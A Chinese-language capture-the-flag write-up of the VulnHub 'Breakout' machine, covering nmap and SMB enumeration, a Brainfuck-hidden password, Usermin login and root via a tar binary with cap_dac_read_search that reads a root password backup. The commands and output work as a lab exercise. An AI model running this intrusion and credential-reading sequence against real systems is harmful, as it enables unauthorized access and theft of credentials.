





# Recon

.png)

nmap扫描结果如下，开放了标准端口的http服务、rpc、samba服务

非标端口10000/tcp和20000/tcp指纹

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/breakout]
└─$ sudo nmap --min-rate 20000 -sT -sV -A -p- -n -Pn 192.168.2.147
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-14 00:26 EST
Nmap scan report for 192.168.2.147
Host is up (0.00059s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4
445/tcp   open  netbios-ssn Samba smbd 4
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
MAC Address: 00:0C:29:23:20:4A (VMware)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop

Host script results:
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-11-14T05:26:56
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.59 ms 192.168.2.147

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.14 seconds
```

# Get a access credentials

80端口是apache default page，



源代码中发现brainfuck，应该是一种提示

```js
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.


-->
```

使用hsbrainfuck工具解码得到一个凭据

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/breakout]
└─$ echo "++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++."|hsbrainfuck
.2uqPEfj3D<P'a-3
```

# Get a username by enum4linux-ng

smbmap扫描samba服务，其存在print$和IPC$共享，但是不存在匿名登录

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/breakout]
└─$ smbmap -H 192.168.2.147     

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                         
[+] IP: 192.168.2.147:445       Name: 192.168.2.147             Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.13.5-Debian)
```

使用enum4linux-ng工具，-R参数枚举RID来获得用户

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/breakout]
└─$ enum4linux-ng  192.168.2.147 -R
ENUM4LINUX - next generation (v1.3.7)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.2.147
[*] Username ......... ''
[*] Random Username .. 'zcdbkysl'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)
[*] RID Range(s) ..... 500-550,1000-1050
[*] RID Req Size ..... 1
[*] Known Usernames .. 'administrator,guest,krbtgt,domain admins,root,bin,none'

 ======================================
|    Listener Scan on 192.168.2.147    |
 ======================================
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ==========================================
|    SMB Dialect Check on 192.168.2.147    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                         
  SMB 1.0: false                                                                                                                                            
  SMB 2.0.2: true                                                                                                                                           
  SMB 2.1: true                                                                                                                                             
  SMB 3.0: true                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                  
SMB1 only: false                                                                                                                                            
SMB signing required: false                                                                                                                                 

 ============================================================
|    Domain Information via SMB session for 192.168.2.147    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: BREAKOUT                                                                                                                             
NetBIOS domain name: ''                                                                                                                                     
DNS domain: ''                                                                                                                                              
FQDN: breakout                                                                                                                                              
Derived membership: workgroup member                                                                                                                        
Derived domain: unknown                                                                                                                                     

 ==========================================
|    RPC Session Check on 192.168.2.147    |
 ==========================================
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for guest access
[+] Server allows authentication via username 'zcdbkysl' and password ''
[H] Rerunning enumeration with user 'zcdbkysl' might give more results

 ====================================================
|    Domain Information via RPC for 192.168.2.147    |
 ====================================================
[+] Domain: WORKGROUP
[+] Domain SID: NULL SID
[+] Membership: workgroup member

 ===================================================================
|    Users, Groups and Machines on 192.168.2.147 via RID Cycling    |
 ===================================================================
[*] Trying to enumerate SIDs
[+] Found 3 SID(s)
[*] Trying SID S-1-22-1
[+] Found user 'Unix User\cyber' (RID 1000)
[*] Trying SID S-1-5-21-1683874020-4104641535-3793993001
[+] Found user 'BREAKOUT\nobody' (RID 501)
[+] Found domain group 'BREAKOUT\None' (RID 513)
[*] Trying SID S-1-5-32
[+] Found builtin group 'BUILTIN\Administrators' (RID 544)
[+] Found builtin group 'BUILTIN\Users' (RID 545)
[+] Found builtin group 'BUILTIN\Guests' (RID 546)
[+] Found builtin group 'BUILTIN\Power Users' (RID 547)
[+] Found builtin group 'BUILTIN\Account Operators' (RID 548)
[+] Found builtin group 'BUILTIN\Server Operators' (RID 549)
[+] Found builtin group 'BUILTIN\Print Operators' (RID 550)
[+] Found 2 user(s), 8 group(s), 0 machine(s) in total

Completed after 9.41 seconds
```

得到cyber用户

# shell as cyber by usermin

10000/tcp和20000/tcp分别为webmin和usermin，是高权限和普通用户权限级别的web端系统管理面板工具



对两个面板进行弱口令尝试均无果



使用上文中得到的cyber用户和.2uqPEfj3D<P'a-3密码尝试

成功登录usermin，其中有命令行权限



得到系统级cyber用户权限



# shell as root by cap_dac_read_search

把shell反弹出来，cyber用户主目录存在tar二进制文件，getcap查看拥有capability权限的命令

发现/home/cyber/tar存在read和search的capability

```shell
(remote) cyber@breakout:/home/cyber$ ls
tar  user.txt
(remote) cyber@breakout:/home/cyber$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
```

find命令找找有没有备份文件，发现.old_pass.bak，没有读取权限

```shell
(remote) cyber@breakout:/home/cyber$ find / -name "*.bak" 2>/dev/null
/var/backups/.old_pass.bak
(remote) cyber@breakout:/home/cyber$ cat /var/backups/.old_pass.bak 
cat: /var/backups/.old_pass.bak: Permission denied
```

使用tar打包目标目录，解包后查看文件得到密码

```shell
(remote) cyber@breakout:/home/cyber$ ./tar -cvf passwd.tar.gz /var/backups/
./tar: Removing leading `/' from member names
/var/backups/
/var/backups/apt.extended_states.0
/var/backups/.old_pass.bak
(remote) cyber@breakout:/home/cyber$ tar -xvf passwd.tar.gz 
var/backups/
var/backups/apt.extended_states.0
var/backups/.old_pass.bak
(remote) cyber@breakout:/home/cyber$ cat var/backups/.old_pass.bak 
Ts&4&YurgtRX(=~h
```

su root即可

```shell
(remote) cyber@breakout:/home/cyber$ cat var/backups/.old_pass.bak 
Ts&4&YurgtRX(=~h
(remote) cyber@breakout:/home/cyber$ su root
Password: 
root@breakout:/home/cyber# id
uid=0(root) gid=0(root) groups=0(root)
root@breakout:/home/cyber# cat /root/*txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
```

